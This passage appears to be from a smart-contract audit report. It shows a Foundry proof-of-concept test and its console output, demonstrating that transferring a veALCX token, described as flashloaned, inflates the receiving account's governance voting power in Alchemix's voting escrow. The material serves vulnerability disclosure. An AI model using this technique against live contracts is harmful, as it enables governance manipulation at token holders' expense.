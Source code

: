 ```solidity

    // Take a flashloan of veALCX
    console.log("\nTake a flashloan of veALCX token");
    uint256 tokenId2 = createVeAlcx(user2, TOKEN_1M, MAXTIME, false);
    console.log("Created VeALCX with 1M locked tokens");
    console.log("getVotes(user2)           :", veALCX.getVotes(user2));
    assertEq(veALCX.balanceOfToken(tokenId2), getMaxVotingPower(TOKEN_1M, veALCX.lockEnd(tokenId2)));

    // Transferring tokenId2 from user2 to user1
    console.log("\nTransferring flashloaned tokenId2 from user2 to user1");
    hevm.startPrank(user2);
    veALCX.safeTransferFrom(user2, user1, tokenId2);
    assertEq(veALCX.ownerOf(tokenId2), user1);
    hevm.stopPrank();

    console.log("balanceOfToken(tokenId)   :", veALCX.balanceOfToken(tokenId));
    console.log("balanceOfToken(tokenId2)  :", veALCX.balanceOfToken(tokenId2));
    console.log("balanceOfTokenAt(tokenId2):", veALCX.balanceOfTokenAt(tokenId2, block.timestamp));
    console.log("getVotes(user1)           : %s <= Inflated voting power", veALCX.getVotes(user1));
    console.log("getVotes(user2)           :", veALCX.getVotes(user2));

    assertEq(veALCX.balanceOfToken(tokenId2), 0);
    assertEq(veALCX.getVotes(user1), veALCX.balanceOfToken(tokenId) + veALCX.balanceOfTokenAt(tokenId2, block.timestamp));

    hevm.stopPrank();
}
```

**Console Output:**

```shell
> FOUNDRY_PROFILE=default forge test --fork-url $FORK_URL --fork-block-number 17133822 --match-contract VotingEscrowTest --match-test testVoteInflationByTransferToken -vvv

Ran 1 test for src/test/VotingEscrow.t.sol:VotingEscrowTest
[PASS] testVoteInflationByTransferToken() (gas: 2317763)
Logs:
  balanceOfToken(tokenId)   : 1994518328243124355
  getVotes(user1)           : 1994518328243124355
  getVotes(user2)           : 0

Take a flashloan of veALCX token
  Created VeALCX with 1M locked tokens
  getVotes(user2)           : 1994518328259766615659745

Transferring flashloaned tokenId2 from user2 to user1
  balanceOfToken(tokenId)   : 1994518328243124355
  balanceOfToken(tokenId2)  : 0
  balanceOfTokenAt(tokenId2): 1994518328259766615659745
  getVotes(user1)           : 1994520322778094858784100 <= Inflated voting power
  getVotes(user2)           : 0
```
